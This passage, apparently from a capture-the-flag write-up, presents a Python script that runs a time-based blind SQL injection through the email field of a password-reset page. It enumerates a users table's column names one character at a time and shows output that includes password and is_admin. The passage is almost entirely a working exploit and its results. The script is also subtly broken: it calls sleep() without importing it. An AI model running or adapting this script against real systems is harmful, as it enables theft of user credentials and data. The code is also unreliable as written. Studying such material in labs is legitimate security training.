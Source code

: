 Here is a script that retrieve the column names using the same SQL injection:

```python
import requests
import string
from time import time

# SQL columns names are case insensitive
alphabet = string.ascii_lowercase+string.digits+"_-.@$/ "

url = "http://localhost/?page=forgot"

payload = "' or if((select SUBSTRING(column_name,{},1) from information_schema.columns where table_name=0x6a306a305f7573657273 limit {},1)={}, sleep(2), null) -- "  

num_char = 1
num_column = 1
column = ""
columns = []

while True:
	stop = True
	for char in alphabet:
		sleep(0.6)
		t1 = time()
		p = payload.format(num_char, num_column-1, hex(ord(char)))
		r = requests.post(url, data={"email": p})
		t2 = time()
		if t2-t1 > 2:
			stop = False
			if char == " ":
				columns.append(column)
				num_column += 1
				num_char = 1
				column = ""
			else:
				column += char
				num_char += 1
	if stop == True:
		for column in columns:
			print(f"Found column {column}")
		break
```

We get as output:

```
Found column email
Found column has_accepted_terms
Found column id
Found column is_admin
Found column password
Found column username
```
